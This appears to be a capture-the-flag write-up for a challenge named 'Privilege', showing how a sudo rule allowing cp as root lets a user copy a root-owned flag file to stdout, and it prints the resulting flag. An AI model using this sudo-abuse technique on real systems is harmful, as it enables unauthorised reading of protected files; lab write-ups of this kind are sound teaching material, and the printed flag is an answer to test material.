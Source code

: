 # Privilege
## writeup

the challenge is about privilege escalation

after you run ls and trying to read the flag you will find that the flag is owned by the root user

```
ctf@bba36b62073e:~$ ls
flag.txt
ctf@bba36b62073e:~$ ls cat flag.txt
ls: cannot access 'cat': No such file or directory
flag.txt
ctf@bba36b62073e:~$ cat flag.txt
cat: flag.txt: Permission denied
ctf@bba36b62073e:~$ ls -l
total 4
-r--r----- 1 root root 42 Dec 27 13:06 flag.txt

```
so we need to escalate our privileges to read the flag 
there is this useful command **sudo -l**

```
-l, --list                    list user's privileges or check a specific command
```

we got this

```
User ctf may run the following commands on bba36b62073e:
    (root : root) /usr/bin/cp
```

so we can run cp command as root user using sudo 

```
ctf@bba36b62073e:~$ sudo /usr/bin/cp flag.txt /dev/stdout
[sudo] password for ctf: 
Alphabit{PR1V1L3G3_3$CALAT10N_U$1NG_$UD0}
```

we got the flag 